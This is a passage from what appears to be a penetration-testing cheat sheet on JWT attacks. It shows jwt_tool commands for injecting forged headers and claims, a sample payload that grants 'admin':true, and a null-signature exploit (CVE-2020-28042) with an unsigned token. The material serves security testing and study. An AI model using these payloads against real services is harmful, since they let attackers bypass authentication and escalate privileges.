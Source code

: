 | PS512 | RSASSA-PSS using SHA-512 and MGF1 with SHA-512 | Optional      |
| none	| No digital signature or MAC performed          | Required      |

Inject headers with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -hc header1 -hv testval1 -hc header2 -hv testval2`
 

### Payload

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

Claims are the predefined keys and their values:
- iss: issuer of the token
- exp: the expiration timestamp (reject tokens which have expired). Note: as defined in the spec, this must be in seconds.
- iat: The time the JWT was issued. Can be used to determine the age of the JWT
- nbf: "not before" is a future time when the token will become active.
- jti: unique identifier for the JWT. Used to prevent the JWT from being re-used or replayed.
- sub: subject of the token (rarely used)
- aud: audience of the token (also rarely used)

Inject payload claims with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -pc payload1 -pv testval3`


## JWT Signature

### JWT Signature - Null Signature Attack (CVE-2020-28042)

Send a JWT with HS256 algorithm without a signature like `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**Exploit**:
```ps1
python3 jwt_tool.py JWT_HERE -X n
```

**Deconstructed**:
```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```


### JWT Signature - Disclosure of a correct signature (CVE-2019-7644)

